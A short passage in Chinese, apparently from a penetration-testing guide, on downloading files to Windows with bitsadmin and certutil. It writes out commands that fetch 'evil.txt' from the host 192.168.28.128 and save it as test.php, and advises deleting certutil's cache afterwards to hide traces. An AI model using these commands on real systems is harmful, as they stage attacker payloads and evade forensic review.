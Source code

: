 **2、Bitsadmin**

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

```text
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
```

输入以上命令，成功下载文件。

![](../.gitbook/assets/20200413-2.png)

**3、certutil**

用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为："%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content"

```text
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

![](../.gitbook/assets/20200413-3.png)
